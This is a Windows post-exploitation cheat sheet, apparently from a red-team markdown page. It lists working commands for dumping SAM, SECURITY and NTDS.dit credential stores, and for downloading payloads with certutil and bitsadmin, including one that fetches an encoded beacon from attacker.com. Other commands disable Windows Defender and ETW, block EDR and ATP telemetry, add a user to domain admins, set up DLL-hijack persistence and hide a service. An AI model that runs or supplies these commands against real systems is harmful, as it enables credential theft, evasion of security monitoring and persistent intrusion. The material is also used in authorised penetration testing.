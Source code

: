 - Harvest SAM:
	- `reg.exe save hklm\sam c:\temp\sam.save`
	- `reg.exe save hklm\security c:\temp\security.save`
	- `reg.exe save hklm\system c:\temp\system.save`
- Download files (w/o PowerShell)
	- `certutil.exe -urlcache -split -f "https://<url>/a.exe" a.exe`
	- `bitsadmin /transfer cthulhujob /download /priority normal http://<url>/a.exe`
- Disable ETW
	- `set COMPlus_ETWEnabled=0`
- Disable Windows Defender
	- `sc config TrustedInstaller binPath= "cmd.exe /C sc stop windefend && sc delete windefend" && sc start TrustedInstaller`
- Block ATP communications
	- `sc config TrustedInstaller binPath="cmd.exe /C sc stop diagtrack & sc config diagtrack binPath='lol'" && sc start TrustedInstaller`
- Encode and transfer/decode malicious file
	- (On attacker machine) `certutil -encode beacon64.exe file.txt`
	- (On target) `bitsadmin /Transfer myJob http://attacker.com/file.txt C:\windows\tasks\enc.txt && certutil -decode C:\windows\tasks\enc.txt C:\windows\tasks\cisa.exe && del C:\windows\tasks\enc.txt`
- Use Certutil to download exe
	- `certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe`
- Add current user to domain admins
	- `net group "domain admins" myusername /add /domain`
- Get user/domain SID:
	- `whoami /user`
- Create service to run with credentials
	- `sc.exe create MySvc2 binpath= c:\windows\system32\notepad.exe obj=CONTOSO.local\svcUser password=svc1234!`
- Create scheduled task to run with credentials
	- `schtasks.exe /create /tn notepaddaily /tr notepad.exe /sc daily /ru CONTOSO\TaskUser /rp task1234!`
- NewCredentials logon
	- `runas /netonly /user:CONTOSO\OtherUser cmd`
- Add/Delete firewall rule
	- `netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444`
	- `netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444`
- LOL Extract NTDS.dit
	- `vssadmin create shadow /for=C:`
	- `copy <shadow copy volume name>\Windows\ntds\ntds.dit C:\Windows\Temp\ntds.dit`
	- `reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYS` OR `copy <shadow copy volume name>\Windows\System32\config\SYSTEM C:\Windows\Temp\SYS`
	- `vssadmin delete shadows /shadow=<shadow ID>`
- Query AD SPNs
	- `setspn -T <domain> -F -Q */*`
- Enumerate .NET version installed on a host
	- `reg queryv x64 HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full Release`
	- Cross-reference here: https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies
- Reverse port forward
	- Windows Firewall
		- Start rpfwd
			- `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp` - start rpfwd
		- Terminate rpfwd
			- `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444` - terminate rpfwd
- Extract NTDS.dit
	```MSDOS
	ntdsutil
	activate instance ntds
	ifm
	create full C:\ntdsutil
	quit
	quit
	```

- Manually set Kerberos realm (for use with Rubeus, etc. through Proxifier)
	```
	ksetup /setrealm VIPR.LAB
	ksetup /addkdc VIPR.LAB dc01.vipr.lab 
	ksetup /setrealmflags VIPR.LAB tcpsupported
	```

- Create Volume Shadow Copy and copy SAM file out
	- `wmic shadowcopy call create Volume='C:\'`
	- `vssadmin list shadows`
		- Verify shadow file was created and check name
	- `copy \\?\GLOBALROOT\Device\<SHADOW COPY NAME>\windows\system32\config\sam C:\users\User1\Downloads\sam`
	- `copy \\?\GLOBALROOT\Device\<SHADOW COPY NAME>\windows\system32\config\sam C:\users\User1\Downloads\sam`
- Enumerate any domains trusted by our current domain
	- `nltest /trusted_domains`

- Persistence through WptsExtensions.dll:
	- `reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PATH`
		- Query system path
	- Place malicious "WptsExtensions.dll" anywhere in that path
	- Executes on reboot
	- Delete DLL to remove persistence

- DNS black hole on EDR endpoint
	- Find API endpoint
		- `ipconfig /displaydns`
	- Black hole in hosts
		- `echo 127.0.0.1 http://<API domain endpoint> >> c:\windows\system32\drivers\etc\hosts`

- Listing user bookmarks
	- Chrome
		- `type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`
	- Edge
		- `type "C:\Users\%USERNAME%\AppData\Local\Microsoft\Edge\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`
	- Brave
		- `type "C:\Users\%USERNAME%\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"`

- Hide a Windows service (effectively sets all ACLs to "Deny" so literally no user can read the service)

```PowerShell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```
	- TODO: remove the RP/WP for BA (local Admin) and SY (NT authority/SYSTEM) (too lazy to fix the SDDL string right now)
	- Read the SDDL: ConvertFrom-SDDLString